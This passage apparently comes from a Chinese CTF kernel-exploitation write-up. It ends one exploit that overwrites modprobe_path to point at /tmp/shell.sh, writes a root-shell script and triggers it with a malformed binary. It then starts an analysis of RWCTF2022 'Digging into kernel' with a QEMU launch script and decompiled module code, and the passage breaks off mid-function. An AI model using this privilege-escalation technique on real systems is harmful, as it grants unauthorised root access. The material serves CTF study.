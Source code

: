 ```
    write_buf(bof_fd,&p);

    alloc_buf(bof_fd,&p);
    alloc_buf(bof_fd,&p);

    read_buf(bof_fd,&p);
    qword_dump("leak modprobe_path", buf,0x30);

strcpy((char*)&buf[4],"/tmp/shell.sh\x00");
    write_buf(bof_fd,&p);
    read_buf(bof_fd,&p);
    qword_dump("leak modprobe_path", buf,0x30);

if(open("/shell.sh", O_RDWR)<0){
        system("echo '#!/bin/sh' >> /tmp/shell.sh");
        system("echo 'setsid /bin/cttyhack setuidgid 0 /bin/sh' >> /tmp/shell.sh");
        system("chmod +x /tmp/shell.sh");
}

    system("echo -e '\\xff\\xff\\xff\\xff' > /tmp/fake");
    system("chmod +x /tmp/fake");
    system("/tmp/fake");

return0;
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwKjGj79NBAzzDv7Fic1Ty7AnxeRG0LfdEll0RGcgwa82kNcZFibLkXfRz3qTSo6zLN3nwzYnU8sjRA/640?wx_fmt=other&from=appmsg "null")  
  
## RWCTF2022 Digging into kernel 1 & 2  
### 题目分析  
  
**start.sh**  
```
#!/bin/sh

qemu-system-x86_64 \
-kernel bzImage \
-initrd rootfs.img \
-append "console=ttyS0 root=/dev/ram rdinit=/sbin/init quiet noapic kalsr" \
-cpu kvm64,+smep,+smap \
-monitor null \
--nographic \
-s
```  
  
**逆向分析**  
```
int __cdecl xkmod_init()
{
  kmem_cache *v0;// rax

  printk(&unk_1E4);
  misc_register(&xkmod_device);
  v0 =(kmem_cache *)kmem_cache_create("lalala",192LL,0LL,0LL,0LL);
  buf =0LL;
  s = v0;
return0;
}
```  
```
int __fastcall xkmod_release(inode *inode, file *file)
{
```